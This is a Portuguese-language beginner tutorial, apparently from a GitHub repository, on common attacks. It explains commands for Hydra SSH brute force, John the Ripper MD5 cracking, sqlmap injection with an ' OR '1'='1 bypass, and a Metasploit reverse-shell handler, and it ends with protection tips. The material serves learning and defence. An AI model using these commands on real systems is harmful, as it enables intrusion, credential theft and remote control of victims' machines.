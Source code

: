 Common Attacks - Full Report 

Objetivo
Aprender sobre os ataques mais comuns na área de segurança cibernética e como eles funcionam na prática.

Ferramentas Utilizadas
Hydra: Para ataques de força bruta
John the Ripper: Para quebrar hashes de senhas
SQLmap: Para testar injeção SQL
Metasploit: Para exploração de vulnerabilidades

Passo a Passo Detalhado

1. Ataque de Força Bruta (SSH)

Comando:
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10

Explicação:
hydra: Ferramenta que testa várias combinações de usuário e senha
-l admin: Tenta fazer login com o usuário "admin"
-P rockyou.txt: Usa a lista de senhas mais comuns da internet
ssh://10.10.10.10: Endereço do servidor SSH que estamos atacando

Por que funciona?:
Muitas pessoas usam senhas fracas como "123456" ou "password". Essas senhas estão na lista rockyou.txt.

Como se proteger?:
Usar senhas complexas (mínimo 12 caracteres com números, letras e símbolos)
Habilitar autenticação em dois fatores

2. Quebra de Hashes (John the Ripper)
Comando:
john --format=raw-md5 --wordlist=rockyou.txt hash.txt

Explicação:
john: Programa para quebrar hashes de senhas
--format=raw-md5: Indica que o hash está em formato MD5
--wordlist=rockyou.txt: Usa a mesma lista de senhas comuns
hash.txt: Arquivo contendo o hash que queremos quebrar

Exemplo de Hash:
text
5f4dcc3b5aa765d61d8327deb882cf99  ← Hash MD5 de "password"

Por que é perigoso?:
Muitos sites armazenam senhas como hashes. Se o banco de dados vazar, hashes podem ser quebrados.

3. Injeção SQL (SQLmap)

Comando:
sqlmap -u "http://site.com/login?user=test" --dbs

Explicação:
sqlmap: Ferramenta que testa vulnerabilidades SQL
-u "http://...": URL do site vulnerável
--dbs: Tenta listar todos os bancos de dados

O que é Injeção SQL?:
É quando um atacante envia comandos SQL maliciosos através de um formulário de site.

Exemplo de Ataque:
Digitar ' OR '1'='1 num campo de login pode burlar a autenticação.

4. Exploração com Metasploit

Comandos:
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit

Explicação:
msfconsole: Abre o framework Metasploit
use exploit/...: Seleciona um exploit específico
set payload ...: Configura como o atacante receberá acesso
set LHOST ...: Define o IP do atacante
exploit: Executa o ataque

Como funciona?:
Cria uma "porta dos fundos" (backdoor) no sistema alvo.

Lições Aprendidas
Senhas fracas são a principal causa de ataques bem-sucedidos
Sites vulneráveis podem entregar todos os dados através de SQL Injection
Sistemas desatualizados são alvos fáceis para exploits conhecidos

Como se Proteger?
✅ Use senhas fortes e únicas para cada serviço
✅ Mantenha todos os sistemas atualizados
✅ Use firewalls e monitoramento de rede
✅ Faça testes de penetração regularmente